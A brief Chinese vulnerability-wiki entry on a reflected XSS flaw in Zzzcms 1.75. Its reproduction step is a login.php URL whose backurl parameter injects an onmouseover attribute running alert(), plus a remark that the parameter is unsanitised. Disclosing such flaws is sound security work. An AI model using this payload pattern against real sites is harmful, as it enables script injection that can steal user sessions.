 Zzzcms 1.75 xss漏洞
===================

一、漏洞简介
------------

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

    http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d

该onmouseover事件在移动到登录注册时会触发

![](/Users/aresx/Documents/VulWiki/.resource/Zzzcms1.75xss漏洞/media/rId24.png)

对传入的backurl并没有做任何防护

image

